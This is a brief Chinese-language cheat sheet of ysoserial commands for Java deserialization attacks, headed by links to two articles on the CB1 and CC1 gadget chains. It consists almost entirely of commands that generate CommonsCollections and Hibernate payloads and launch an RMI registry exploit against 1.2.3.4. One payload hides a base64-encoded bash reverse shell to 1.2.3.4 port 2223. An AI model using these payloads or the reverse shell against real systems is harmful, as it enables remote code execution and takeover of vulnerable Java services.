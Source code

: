 [『代码审计』ysoserial CB1 反序列化分析](https://mp.weixin.qq.com/s/Pbxw79a1klGTwwYgeDhYqw)
[Java反序列化之CC1链](https://mp.weixin.qq.com/s/QKJnxPEMXkudM4Fvgzhl4A)

```bash
java -jar ysoserial-all.jar CommonsCollections3 "calc" > cc3.txt
java -jar ysoserial-all.jar CommonsCollections3 "calc" |base64 -w 0
java -jar ysoserial-all.jar CommonsCollections4 "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEuMi4zLjQvMjIyMyAwPiYx}|{base64,-d}|{bash,-i}"|base64 -w 0
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 1.2.3.4 1099 CommonsCollections1 "calc.exe"



# 示例: hibernate-core-5.4.6.Final.jar这个包，利用ysoserial生成payload，执行以下命令
java -Dhibernate5 -cp hibernate-core-5.4.6.Final.jar;ysoserial.jar ysoserial.GeneratePayload Hibernate1 calc.exe > token.bin
## 可能需要 base64转码再转码用python发.
```